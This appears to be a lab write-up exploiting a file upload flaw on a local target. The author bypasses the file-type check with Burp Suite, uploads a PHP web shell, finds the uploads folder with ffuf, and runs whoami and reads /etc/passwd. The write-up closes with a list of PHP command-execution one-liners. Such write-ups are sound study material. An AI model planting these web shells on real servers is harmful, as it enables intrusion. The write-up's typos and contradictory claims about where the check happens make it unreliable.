

Will start the docker and web browser
and will make a txt file and got this error:

Open the dev tools for that press Q to inspect and go in the Network tab and just reload the website.

As we can see there are no check's happening on the Client Side
An application will send a request to the web server and than come back
but in this there is no check happeing on the Client Side
Cuz if we have check on the client side we would have simple disable the JS and the check would have never happened or simply intecept the file and change the file type.
Now will upload a file and turn our Burpsuite on to see what's happening this time.

As you can see that the request has been left from the Client Side so that we can modify the request can simply remove the PNG data and put txt data there and see what happens

We got Error 200

It looks like the Check has been happening on the client side for now as we were able to upload the .txt file.
Now will try to upload a php file

<?php sysyem($_GET['cmd']); ?>
Here GET is a super global which means this is going to get the value of the parameter that's sent in get requests.
Another thing to take care is extensions as we want the web server to treat this as an executable file.
As we can see the file is stored as assest:

But when we are trying to locate we got the forbidden access so will use the Fuzz to get the directory by copying the lab link

When we do Fuzzing using the FFuF tool we got this result

But as we check there was nothing in assests so will fuzz labs further and got the uploads folder

And when we hit the url
localhost/uplaods/cmd.php

So we need to pass a query in my cmd
?cmd=whoami

we could other php commands as well
trying all these <@456226577798135808>
'# Execute one command
<?php system("whoami"); ?>
# Take input from the url paramter. shell.php?cmd=whoami
<?php system($_GET['cmd']); ?>
# The same but using passthru
<?php passthru($_GET['cmd']); ?>
# For shell_exec to output the result you need to echo it
<?php echo shell_exec("whoami");?>
# Exec() does not output the result without echo, and only output the last line. So not very useful!
<?php echo exec("whoami");?>
# Instead to this if you can. It will return the output as an array, and then print it all.
<?php exec("ls -la",$array); print_r($array); ?>
# preg_replace(). This is a cool trick
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>
# Using backticks
<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>
# Using backticks
<?php echo `whoami`; ?>'
We can also do
/etc/passwd

but if we press Ctrl + U we will formated more nicely